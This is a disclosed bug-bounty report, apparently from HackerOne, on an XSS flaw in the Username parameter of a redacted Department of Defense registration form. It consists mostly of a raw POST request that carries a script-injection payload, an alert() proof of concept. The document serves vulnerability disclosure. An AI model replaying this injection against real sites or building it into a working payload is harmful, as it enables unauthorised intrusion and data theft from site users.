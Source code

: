 # Parâmetro XSS: Nome de usuário - █████████

## Report Details
- **Report ID**: 2356104
- **URL**: https://hackerone.com/reports/2356104
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-05T19:57:47.786Z
- **Disclosed**: 2024-03-22T17:40:22.789Z

## Reporter
- **Username**: chor4o
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi teams,

Burp - Request

█████

In the first video, I demonstrate via burp the capture of get and then I modify it to post and copy the code that I sent in the other reports and send the xss.

Dod-1.mkv

In the video dod-2.mkv I am sending the xss via "POC" poc-dod.html

## Impact

The attacker can steal data from whoever checks the report.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Burp Request

POST /testweb/aeon.dll/css/Aeon.dll HTTP/1.1
Host: ███
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 597

Address=███████&Address2=█████&AeonForm=Registration&City=██████&Country=████&Department=Candidate&EMailAddress=█████████&FORMSTATE=1&FirstName=ghovjnjv&ID=1&IDType=1&LastName=ghovjnjv&NotificationMethod=Email&Password1=u]H[ww6KrA9F.x-F&Password2=u]H[ww6KrA9F.x-F&Phone=███&SAddress=██████&SAddress2=█████████&SCity=██████&SCountry=AF&SState=N/A&SZip=██████████&State=N/A&Status=USMA&SubmitButton=Submit%20Information&Username=ghovjnjv'"()%26%25<zzz><ScRiPt>alert(233)</ScRiPt>&Zip=██████████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments

